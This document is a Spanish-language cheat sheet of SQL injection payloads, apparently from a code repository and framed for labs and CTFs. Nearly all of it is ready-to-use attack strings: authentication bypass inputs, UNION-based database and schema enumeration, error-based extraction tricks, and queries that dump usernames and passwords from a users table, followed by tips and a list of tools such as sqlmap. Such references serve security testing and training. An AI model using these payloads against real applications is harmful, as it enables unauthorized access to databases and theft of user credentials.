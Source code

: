 # 🔍 SQLIjection PayLoads Cheatsheet

>  Lista de SQL Injection payloads comunes agrupados por categorías. Son útiles para pruebas manuales en aplicaciones vulnerables, como en laboratorios, CTFs o entornos como DVWA, OWASP BWA, Mr. Robot, etc.



---

##  🧪 1. Pruebas básicas para detectar SQLi

' OR '1'='1

" OR "1"="1

' OR 1=1 --

" OR 1=1 --

' OR 'a'='a

' #

'-- 

### 🛡️ 2. Bypass de autenticación (login forms)

admin' --

admin' #

admin' or '1'='1

' or 1=1 limit 1; --

' or sleep(5) --  -- (para detectar blind SQLi)

### 📊 3. Enumeración de datos

' UNION SELECT null, version() -- 

' UNION SELECT null, database() --

' UNION SELECT user(), password FROM users --

### 🧱 4. Errores intencionales (para SQLi basada en errores)

' AND 1=convert(int, (SELECT @@version)) --

' AND updatexml(null, concat(0x7e,(SELECT database()),0x7e), null) --

' AND extractvalue(1, concat(0x7e, user(), 0x7e)) --

### 🧾 6. Información del sistema (MySQL)

' UNION SELECT @@version --

' UNION SELECT database() --

' UNION SELECT table_name FROM information_schema.tables --

' UNION SELECT column_name FROM information_schema.columns WHERE table_name='users' --

### 🧬 7. Exfiltración (si puedes hacer múltiples SELECT)

' UNION SELECT username, password FROM users --

' AND 1=1 UNION SELECT null, concat(username, ':', password) FROM users --

### ⚠️ Tips

Usa comentarios (--, #, /* */) para evitar errores en el resto de la query.

Prueba con diferentes comillas (', ", sin comillas) dependiendo del motor SQL.

Ajusta para la base de datos: MySQL, PostgreSQL, MSSQL, Oracle tienen diferentes funciones.

### 🧰 Herramientas para automatizar

sqlmap

Burp Suite (intruder + repeater)

sqlninja, jSQL, Havij (antiguo, educativo)




